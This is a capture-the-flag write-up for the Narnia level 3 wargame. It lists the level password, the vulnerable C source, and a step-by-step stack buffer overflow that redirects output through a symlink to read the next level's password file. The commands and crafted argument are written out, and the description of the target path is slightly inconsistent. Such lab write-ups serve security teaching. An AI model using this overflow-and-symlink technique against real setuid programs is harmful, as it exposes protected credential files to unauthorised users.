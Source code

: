 # username / password
narnia3 / 2xszzNl6uG
# concept
* stack buffer overflow
# sourcecode
```
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```
# method of solve
* the way the binary works is that it takes in a file as an argument and copies the file's contents to another file, which by default is `/dev/null`
* the code is vulnerable to stack buffer overflow due to its use of the following `strcpy` function:
```
strcpy(ifile, argv[1]);
```
* the associated buffer is this:
```
char ifile[32];
```
* which means that if the length of the command argument is in excess of 32 bytes, it will overflow into the other buffer, which is...
```
char ofile[16] = "/dev/null";
```
* so we can fill the `ifile` buffer with a directory that we control that is 32 bytes long, such as `/tmp/...narnia3/bigdirectoryname`
* the `second part` which comes after `/tmp/...narnia3/bigdirectoryname` will overwrite the `ofile` buffer, replacing the write file which is `/dev/null` by default
* we want that second part to be `/tmp/...narnia3/link`, and we want this file to be a symbolic link to the to the `narnia4` user's password file:
```
ln -s /etc/narnia_pass/narnia4 /tmp/...narnia3/bigdirectoryname/tmp/frog
touch /tmp/frog
```
* now we can put the whole payload together, which will take in the big 32-byte directory name, followed by a shorter filepath in the `tmp` directory
```
/narnia/narnia3 /tmp/...narnia3/bigdirectoryname/tmp/frog
```
* the password will be copied to the `/tmp/frog` file
